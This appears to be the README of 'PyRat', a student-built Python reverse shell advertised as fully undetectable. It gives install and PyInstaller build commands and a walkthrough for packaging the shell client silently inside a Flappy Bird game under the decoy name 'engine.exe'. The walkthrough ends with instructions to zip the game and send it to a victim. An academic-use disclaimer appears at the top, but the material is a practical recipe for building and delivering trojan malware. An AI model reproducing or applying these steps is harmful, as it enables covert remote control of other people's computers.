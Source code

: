 <h1 align="center">PyRat: ReverseShell</h1>
<p align="center">A Fully Undetectable Python 3 Reverse Shell Script</p>

<hr>
<h3 align="center">Disclaimer</h3>
<p align="center">
Developed by <b>Gerard Ian M. Balaoro</b><br>
In Partial Fulfillment on the Requirements for the Subject<br>
LIS 198: Information Security<br>
1st Semester, A.Y. 2018-2019<br>
University of the Philippines Diliman
<br><br>
<i>The author intended this to be used solely for academic purposes</i>
</p>
<hr>



## Usage

- Install required Python packages.

   ```bat
   pip install -r packages.txt
   ```

- Run the server script.

   ```bat
   python server.py --port 58777
   ```

- Configure server settings inside **config.ini**.

  ```json
  {
    "host":"127.0.0.1",
    "port":58777
  }

  ```
  
- Run client script in another computer.


## Building Binaries Using PyInstaller (Windows)

- Server script

  ```bat
  pyinstaller server.py -F -y -i assets/icons/shell.ico --distpath "dist/PyRat" --name "PyRatServer"
  ```
  
- Client script, use the `windowed` option to prevent the script from launching a command window

  ```bat
  pyinstaller client.py -F -y -i assets/icons/gear.ico --distpath "dist/PyRat" --name "PyRatClient"
  ```

## Building Trojan Executables (Windows)


### Injecting the client script inside the parent entry script.

It's faily easy to integrate this script to any Python application. In this example, we will use this [Flappy Bird Game](https://github.com/sourabhv/FlapPyBird) recreated by [Sourabh Verma](https://github.com/sourabhv/) using the PyGame library.

All we need to do is execute the client script silently whenever the game is initialized. We also need to think of an unsuspicous name
to use when compiling the client script, in this case, we're using **'engine.exe'**. This can be accomplished using Python's `subprocess` library:

```python
import subprocess
payload = subprocess.Popen('engine', shell = True, stdout= None, stderr = None, stdin = None)
```


### Building the Game Package


Run `pyinstaller` and copy the assets folder to the destination:

```bat
pyinstaller flappy.py -F -y -i assets/icons/flappy.ico --distpath "dist/FlappyBird" --name "flappybird" --windowed
xcopy "assets" "dist/FlappyBird/assets" /E /S /Y
```

Once done, we can now see our Trojan application inside the `build/FlappyBird` directory. All there's left to do is to change the configuration settings, compress this to a **zip** file and send it to a victim.

```
.
├── ...
├── config.ini  # Server settings
├── engine.exe  # Concealed payload
├── flappybird.exe 
└── ...
```

## Credits

- This script is based on [this article](https://null-byte.wonderhowto.com/how-to/reverse-shell-using-python-0163875/) from WonderHowTo.com
